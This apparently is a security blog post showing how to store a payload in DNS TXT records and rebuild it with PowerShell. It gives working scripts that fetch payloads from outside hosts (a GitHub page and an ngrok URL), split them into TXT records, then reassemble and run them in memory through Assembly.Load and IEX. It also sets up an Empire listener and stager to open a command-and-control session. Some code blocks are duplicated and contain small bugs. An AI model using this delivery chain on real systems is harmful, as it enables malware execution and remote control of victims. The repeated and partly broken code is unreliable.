

We have seen in a previous article (Named Pipes) that it was possible to send and receive some data from a server to a client through a tunnel or a channel. Instead of using the Named Pipes, the well known protocol for Internet, DNS, will be used to transfer the data.
Definition
The domain name system is mainly used for identifying systems through Internet. Any system connected to Internet must have a IP address. But as human, it is complicated to remember all the different IP address and easier to remember a domain name such as "google.com". DNS will map the human-friendly domain name to the numerical IP address of the computer.DNS has been created in the very early days of Internet and DNS Tunneling is clearly not a very recent discovery, it has been around for a very long time. Despite it is a old and well known technique, many organizations still have difficulties to detect and prevent it. Usually, adversaries use DNS Tunneling for data exfiltration but in more recent malicious activity, DNS Tunneling has been also used to beacon a Command & Control (Cobalt Strike).
DNS records
Every domain has its own resource records, which is a list of records type link to the domain. Each record has at least a type and a value. There are a few types of DNS records : A (IPv4), AAAA (IPv6), MX (domain name), NS (domain name) and TXT (string). If an adversary is looking for a way to extract data or to store potential malicious data, he might store it in the TXT record since it accept strings and is the DNS type records that can contain the most of characters. The string limit per TXT records is 255, which means that several TXT records will be necessary for the attacker to successfully perform the attack. We know that executable file is not only fully human readable characters, but in order to transform into a fully human readable character, the common encoding method is base64. Base64 is composed of characters ‘A-Z’, ‘a-z’, ‘0-9’, ‘+’, ‘=’, ‘/’.Important notes
Before storing the information in the TXT record of the DNS, some things have to be taken into account:- Not-in-order problem: There is no guarantee that the TXT record will be returned in order. Since that we need to recreate the executable from the base64, we need to make sure that it comes in order.
- Duplicate result will not be display, only one result will be displayed. It is very common for a PowerShell script to have a lot of A when the hex is convert as a base64. Therefore, If there are several time 255 ‘A’, the TXT record will only show one 255 ‘A’.
POC
I've created a Windows Server that host a DNS server for this test. Let's create manually some TXT records in the DNS.
Nslookup is a network administration command-line to obtain some DNS information about a domain name. In the current DNS server, I have created some TXT records named 0, 1, 2, 3 because it is easier to call them in this way when we need to make a loop in our script to get those TXT records in the correct order.
Let's create manually some TXT records in the DNS.
Nslookup is a network administration command-line to obtain some DNS information about a domain name. In the current DNS server, I have created some TXT records named 0, 1, 2, 3 because it is easier to call them in this way when we need to make a loop in our script to get those TXT records in the correct order.
For($i=0; $i -lt $numberofdomain; $i++){nslookup -q=txt $i}[-1]
Since that the result of nslookup stores the value at the last position of a array, the "[-1]" is used to get the last value of an array.
Looking at the output, some tabulation characters and double quotes have to be removed from the string.
$string.replace(“`t”, “”).replace(“`””,””)}
If we need to recreate a PE file, we must concatenate the data present in each subdomain, let's try to concatenate the value of those subdomains.
For($i=0; $i -lt $numberofdomain; $i++){$temp = (nslookup -q=txt $i”.persolab.info”)[-1]; $result = $result + $temp.replace(“`t”, “”).replace(“`””,””)};Write-Host($result);

Exploit
Mimikatz
We have previously made some tests by adding some data manually in the DNS server, however if the payload contain more than 10 000 characters, it is better to automate this task. To add DNS record in PowerShell, it exists a method called "Add-DnsServerResourceRecord".Add-DnsServerResourceRecord -DescriptiveText "This is a test" -Name Test -Txt -ZoneName persolab.info
Let's retrieve a payload from my own web application by calling a DownloadString("https://hakkyahud.github.io/password.html"). Before writing our script, we need to determine the amount of subdomain. To do so, let's divide the amount of characters by 254.
[math]::ceiling($payload.length/254)
Once the number of subdomain has been determined, let's script it :)
$payload = (New-Object Net.WebClient).DownloadString("https://hakkyahud.github.io/password.html");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254); //take from 254*i and add 254 following characters
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i)); //To not go outside of the buffer
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
It works perfectly, there are so many subdomains that I cannot tell you how many is stored in the DNS server at the moment.
Let's make some calculation
In this current payload, there are 4 839 426 characters and by dividing by 254, the DNS server have created 19053 subdomains. $numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254); //take from 254*i and add 254 following characters
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i)); //To not go outside of the buffer
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
$numberofsubdomain = 19053;
For($i=0; $i -lt $numberofdomain; $i++){
$temp = (nslookup -q=txt $i”.persolab.info”)[-1];
$result = $result + $temp.replace(“`t”, “”).replace(“`””,””)
}
$byte = [System.Convert]::FromBase64String($result);
$assembly = [System.Reflection.Assembly].Load($byte);
$assembly.EntryPoint.Invoke($null, $null);
Since that we have 19053 subdomains, the loop goes from 0 to (19053-1) and I counted that the time to receive the DNS response from the DNS server takes around 3 seconds. With the 19053 subdomains that we have, if we are multiplying by 3, it is around 57159 seconds and by dividing by 3600 it becomes 16 hours to recreate the payload... For($i=0; $i -lt $numberofdomain; $i++){
$temp = (nslookup -q=txt $i”.persolab.info”)[-1];
$result = $result + $temp.replace(“`t”, “”).replace(“`””,””)
}
$byte = [System.Convert]::FromBase64String($result);
$assembly = [System.Reflection.Assembly].Load($byte);
$assembly.EntryPoint.Invoke($null, $null);
After running the program 3 hours, I've stopped it and decided to find another payload. I was thinking a stager to connect to a Meterpreter session or Empire session.
To delete the DNS events in PowerShell, the method “Remove-DnsServerResourceRecord” removes specified DNS server resource records from a zone.
For($i=0; $i -lt $numberofsubdomain; $i++){
try{
Remove-DnsServerResourceRecord -ZoneName “persolab.info” -RRType “Txt” -Name $i -force -confirm:$false;
}
catch{
break;
}
}
try{
Remove-DnsServerResourceRecord -ZoneName “persolab.info” -RRType “Txt” -Name $i -force -confirm:$false;
}
catch{
break;
}
}
Empire
- uselisteners http
- set Port 80
- set Host http://[IP_ADDRESS]:[PORT]
- set Name c2http
- execute
- usestager multi/launcher
- set Listener c2http
- execute
Copy this payload to a index.html file and create a python web application on a port in the index.html directory.
echo [PAYLAOD] > ./Documents/http/index.html;
python -m http.server 8000
 Use Ngrok to open your port on internet (ngrok http –scheme http 8000)
Use Ngrok to open your port on internet (ngrok http –scheme http 8000) It is necessary to have a Ngrok account and then copy the authentication token to the configuration file.
ngrok config add-authtoken [AUTHTOKEN XXX]
The authtoken saved to configuration file: /root/.config/ngrok/ngrok.yml Now the content of the index.html file can be reachable in Internet. Now we can add the payload in our DNS server.
$payload = (New-Object Net.WebClient).DownloadString("http://2de8-37-168-9-51.eu.ngrok.io");
$payload = $payload.replace("`n","");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254);
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i));
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
All the PowerShell payload that was in my web application has been put in the DNS server. The payload is divided in 15 subdomains. The last step is to reconstruct the payload and run in a system. After running the payload on a Windows machine, it should open an Empire session on our attacker system.
$payload = $payload.replace("`n","");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254);
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i));
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
$numberofsubdomain = 15;$result = "";For($i=0; $i -lt $numberofsubdomain; $i++){$temp = (nslookup -q=txt $i”.persolab.info”)[-1];$result = $result + $temp.replace(“`t”, “”).replace(“`””,””);}$result = $result.replace("`"","");Write-Host($result);IEX($result);
Empire session is opened ! We have reconstruct the payload from the 15 subdomains of our DNS. Everything has been done in local, but an attack could have gotten a new domain to perform such a attack. By doing such a activity, it is very noisy in the network, the victim computer is requesting a lot of subdomains and the data size is quite huge.